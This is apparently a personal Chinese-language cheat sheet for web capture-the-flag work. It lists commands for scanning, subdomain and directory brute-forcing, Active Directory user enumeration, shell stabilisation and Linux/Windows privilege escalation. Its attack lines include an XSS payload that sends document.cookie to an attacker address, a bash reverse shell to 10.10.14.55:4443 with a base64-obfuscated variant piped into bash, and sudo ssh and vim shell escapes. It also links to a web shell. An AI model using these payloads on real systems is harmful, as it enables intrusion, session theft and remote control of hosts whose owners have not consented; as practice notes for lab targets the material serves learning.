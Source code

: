 # **Web-CTF筆記**

紀錄CTF時常用的指令與技巧

## 連續流程

進入連線後

```
1. 確認目標 IP & tun0 與計畫名稱
2. sudo nmap -sC -sV -T4 -vvvv <TARGET_IP> -oA <project_name>
3. 若目標有域名，將其加入 /etc/hosts 
4. 檢查網頁是否有信箱或是導向域名
5. 子域名搜尋
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://target.com/" -H "Host: FUZZ.target.com" --hw 1036 -t 5
6. 網頁搜尋
dirsearch -u "http://devvortex.htb/"
feroxbuster
7. 檢查服務框架、curl -v 是否有相關exploit
8. 檢查網頁內容
```



取得shell後

```python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z  //回到原指令框
stty raw -echo; fg
export TERM=xterm (or)
export SHELL=bash
```



## **Reconnaissance-偵查**

amass enum -brute -d [nsh.tw](http://nsh.tw/)

nmap

```
#簡單scan
sudo nmap -p- -sC -sV 10.129.58.70 --open
#完全scan
nmap -sC -sV -sU -T4 -Pn 10.10.11.248
#
-sU：UDP 掃描。
-Pn：這個選項跳過目標存活檢測（ping 掃描）。Nmap 通常先檢查目標是否存活，然後再執行更徹底的掃描。如果你已知目標是活躍的，或者想要掃描那些屏蔽了 ping 請求的主機，可以使用這個選項。
```

AXFR搜尋

```
nslookup -type=any -query=AXFR
dig @dns.example.com example.com AXFR
```

wfuzz 子域名枚舉

```
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "<http://target.com/>" -H "Host: FUZZ.target.com" --hw 1036 -t 5
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

subdir

```
dirsearch -u "<http://devvortex.htb/>"
feroxbuster
```

### **Active Directory**

```
ldapsearch -x -H ldap://monitored.htb -D '' -w '' -b "DC=monitored,DC=htb"
```

枚舉用戶

```
/kerbrute_linux_amd64  userenum -d manager.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.11.236
```

弱掃

```jsx
nuclei
```

XSS

```bash
<img src=x onerror=fetch("http://<your_ip>:port/"+document.cookie);>
```

## **Resource Development**

Acquire Access

1. 預設密碼
2. 常用密碼爆破

### **RevShell**

https://www.revshells.com/

```
#Payload:
bash -i >& /dev/tcp/10.10.14.55/4443 0>&1

#Obfuscation
echo 'bash -i >& /dev/tcp/10.10.14.55/4443 0>&1' | base64 -w 0
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41NS80NDQzIDA+JjEK' | base64 -d | bash
```

### **proxychain**

```
ssh -D port kali@跳板

修改 /etc/proxychains.conf
```

## **Privilege Escalation**

linux基本流程

```
lsb_release -a
uname -a
service --status-all
id
find / -perm -u=s -type f 2>/dev/null
sudo -l
LinEnum
getcap -r /
找資料
/var/spool/mail
```

windows基本流程

```
whoami
whoami /priv
systeminfo
tasklist
#powershell
Get-Service
```

ssh

```
sudo /usr/bin/ssh -o ProxyCommand=';bash 0<&2 1>&2' x
```

vim

```
:!/bin/sh
!/bin/bash
```

穩定shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z  //回到原指令框
stty raw -echo; fg
export TERM=xterm (or)
export SHELL=bash
```

https://github.com/flozz/p0wny-shell